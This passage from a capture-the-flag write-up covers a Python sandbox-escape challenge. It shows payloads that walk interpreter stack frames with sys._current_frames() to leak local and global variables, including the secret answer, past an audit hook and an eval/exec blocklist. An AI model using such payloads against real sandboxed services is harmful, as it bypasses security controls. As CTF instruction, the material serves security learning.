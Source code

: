 As you can see, we are now in the `guesser()` function! Let's access the `f_locals` and `f_globals`!

Accessing `f_locals`:
```bash
Welcome to my guesser game!
Can u guess the number? between 1 and 9999999999999 >
 [*] right_guesser_question_answer: 5953965730357
Raised event: builtins.input
list(__builtins__['__import__']('sys')._current_frames().values())[-1].f_back.f_locals
Raised event: builtins.input/result
Raised event: compile
Raised event: exec
Raised event: sys._current_frames
Evaluated data:
```
`{'game_score': 0, 'right_guesser_question_answer': 5953965730357, 'challenge_original_stdout': <_io.TextIOWrapper name='<stdout>' mode='w' encoding='utf-8'>}`
```bash
Guess game end!!!
```

Accessing `f_globals`:
```bash
nikos@ctf-box:~/ctfs/csaw22-finals/misc/super-guesser-game$ python service.py
Welcome to my guesser game!
Can u guess the number? between 1 and 9999999999999 >
 [*] right_guesser_question_answer: 1544246279733
Raised event: builtins.input
list(__builtins__['__import__']('sys')._current_frames().values())[-1].f_back.f_globals
Raised event: builtins.input/result
Raised event: compile
Raised event: exec
Raised event: sys._current_frames
Evaluated data:
```
`{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f47a2e6d810>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': '~/ctfs/csaw22-finals/misc/super-guesser-game/service.py', '__cached__': None, 'random': <module 'random' from '~/.pyenv/versions/3.10.5/lib/python3.10/random.py'>, 'StringIO': <class '_io.StringIO'>, 'sys': <module 'sys' (built-in)>, 'BLACKED_LIST': ['compile', 'eval', 'exec'], 'eval_func': <built-in function eval>, 'm': 'exec', 'noop': <function noop at 0x7f47a2fafd90>, 'my_audit_hook': <function my_audit_hook at 0x7f47a2d29c60>, 'guesser': <function guesser at 0x7f47a2d29cf0>, 'WELCOME': "<long prompt>", 'main': <function main at 0x7f47a2d29d80>}`
```bash
Guess game end!!!
```

Nice! As you can see, from the `f_locals` we managed to leak the value of `right_guesser_question_answer` which we can use to score a point (but we do not care). We can also use the value of `challenge_original_stdout` in order to restore `stdout` and enable again `print()` statements without having to resort to the file descriptors trick that we used before.
